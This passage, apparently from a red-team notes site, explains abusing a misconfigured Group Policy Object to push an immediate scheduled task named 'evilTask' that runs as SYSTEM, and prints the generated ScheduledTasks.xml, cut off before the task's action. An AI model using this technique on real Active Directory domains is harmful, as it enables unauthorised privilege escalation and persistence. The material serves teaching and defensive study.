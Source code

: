If we observe the Scheduled Tasks of the `Misconfigured Policy` GPO, we can see our `evilTask` sitting there:

![](../../.gitbook/assets/screenshot-from-2018-12-20-12-02-22.png)

Below is the XML file that got created by `New-GPOImmediateTask` that represents our evil scheduled task in the GPO:

{% tabs %}
{% tab title="\\\\offense.local\\SysVol\\offense.local\\Policies\\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\\Machine\\Preferences\\ScheduledTasks\\ScheduledTasks.xml" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">
    <ImmediateTaskV2 clsid="{9756B581-76EC-4169-9AFC-0CA8D43ADB5F}" name="evilTask" image="0" changed="2018-11-20 13:43:43" uid="{6cc57eac-b758-4c52-825d-e21480bbb47f}" userContext="0" removePolicy="0">
        <Properties action="C" name="evilTask" runAs="NT AUTHORITY\System" logonType="S4U">
            <Task version="1.3">
                <RegistrationInfo>
                    <Author>NT AUTHORITY\System</Author>
                    <Description></Description>
                </RegistrationInfo>
                <Principals>
                    <Principal id="Author">
                        <UserId>NT AUTHORITY\System</UserId>
                        <RunLevel>HighestAvailable</RunLevel>
                        <LogonType>S4U</LogonType>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
                        <StopOnIdleEnd>true</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                    <AllowHardTerminate>false</AllowHardTerminate>
```